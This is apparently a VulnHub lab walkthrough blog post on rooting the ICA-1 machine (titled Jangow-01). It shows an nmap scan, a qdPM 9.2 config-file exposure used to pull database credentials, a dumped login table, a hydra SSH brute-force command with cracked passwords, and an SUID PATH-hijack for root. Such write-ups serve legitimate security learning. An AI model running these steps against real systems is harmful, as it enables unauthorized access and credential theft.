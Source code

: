 ```yaml
---
layout: post
title: Jangow-01
categories: VulnHub Machines
permalink: /vulnhub/jangow-01
---
```


Machine: [https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)
Machine Author: [onurturali](https://www.vulnhub.com/author/onurturali,820/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 07:55 UTC
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.136
Host is up (0.00065s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e:77:d9:cb:f8:05:41:b9:e4:45:71:c1:01:ac:da:93 (RSA)
|   256 40:51:93:4b:f8:37:85:fd:a5:f4:d7:27:41:6c:a0:a5 (ECDSA)
|_  256 09:85:60:c5:35:c1:4d:83:76:93:fb:c7:f0:cd:7b:8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, LongPassword, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, ConnectWithDatabase, SupportsCompression, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: /(%Yj"\x16PRA]*\x05\x1ERt     lX7
|_  Auth Plugin Name: caching_sha2_password
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
MAC Address: 08:00:27:49:80:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.56.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds

```

We can see that there is ssh, mysql and http running on the server. Let’s go ahead and check the website since we’ll need credentials for mysql and ssh.

![1](https://github.com/user-attachments/assets/0ad5d22a-835d-43a0-9d81-71b5e8ebf0b5)


We come across a login page for qdPM. There aren’t any default credentials for this service. So let’s look for any exploits for the qdPM 9.2 version.

```bash
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

We manage to find the above exploit. Let’s go ahead and download the databases.yml file

```bash
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```

We seem to have found credentials for the mysql service

qdpmadmin:UcVQCMQk2STVeS6J

Let’s log on to the mysql service and perform some enumeration there.

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.004 sec)

MySQL [(none)]> use staff
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.001 sec)
MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)
MySQL [staff]> select * from login order by user_id;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)
```

We can see some Users and Passwords encoded in base64. We can’t seem to read any file using the load_file() function. So it seems we will have to create a wordlist of users and passwords based on what we have above.

```bash
hydra -L user.txt -P pass.txt 192.168.56.136 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-09 08:37:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking ssh://192.168.56.136:22/
[22][ssh] host: 192.168.56.136   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.56.136   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-09 08:37:48

```

We are able to find two users. Let’s ssh into the server using one of them.

![2](https://github.com/user-attachments/assets/396fdf5d-38e6-4ae4-bb08-1d282ae97a2b)


We are able to get the user.txt from the travis user. Let’s also go ahead and login using dexter to see what else is there.

![3](https://github.com/user-attachments/assets/6a144677-95db-4bd9-99b5-6c19d9f79e05)


There is this note there. Let’s enumerate the system and see what we can find.

![4](https://github.com/user-attachments/assets/4bd76178-6e06-43bf-b553-b9e2b79b0988)


We are able to find a binary with the suid bit set on. Let’s analyze this executable on our machine to see what it does.

```bash
ltrace ./get_access 
setuid(0)                                                                                                                                         = -1
setgid(0)                                                                                                                                         = -1
system("cat /root/system.info"cat: /root/system.info: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 256
socket(2, 1, 0)                                                                                                                                   = 3
puts("All services are disabled. Acces"...All services are disabled. Accessing to the system is allowed only within working hours.

)                                                                                                       = 90
+++ exited (status 0) +++

```

It seem that the binary is calling the cat command to print a file. Since it is calling cat without using the absolute path I think we can do a path export attack on it.

![5](https://github.com/user-attachments/assets/e8b5c106-24c6-42e4-9fc5-723db6c71fae)


Sure enough we do get root.

![6](https://github.com/user-attachments/assets/f88af7fc-721b-4cb7-b7bc-9d5b44725ac9)
